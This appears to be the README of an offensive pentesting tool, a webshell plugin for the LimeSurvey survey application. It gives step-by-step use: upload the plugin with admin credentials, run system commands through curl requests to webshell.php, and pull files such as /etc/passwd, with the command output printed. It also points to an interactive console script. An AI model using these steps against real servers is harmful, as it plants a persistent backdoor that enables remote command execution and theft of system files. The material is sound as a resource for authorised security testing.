# LimeSurvey webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a LimeSurvey application.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/LimeSurvey-plugin-webshell">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/channel/UCF_x5O7CSfr82AfNVTKOv_A?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for LimeSurvey.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the LimeSurvey instance.

### Step 1: Upload the webshell plugin

Go to "Configuration --> plugins" page, at http://localhost:10080/index.php/admin/pluginmanager/sa/index, and click on "Upload & install":

![](./.github/upload_and_install.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.01/upload/plugins/WebShell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://localhost:10080/upload/plugins/WebShell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://localhost:10080/upload/plugins/WebShell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1/upload/plugins/WebShell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```


### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.


## References
 - https://manual.limesurvey.org/Plugin_autoactivation
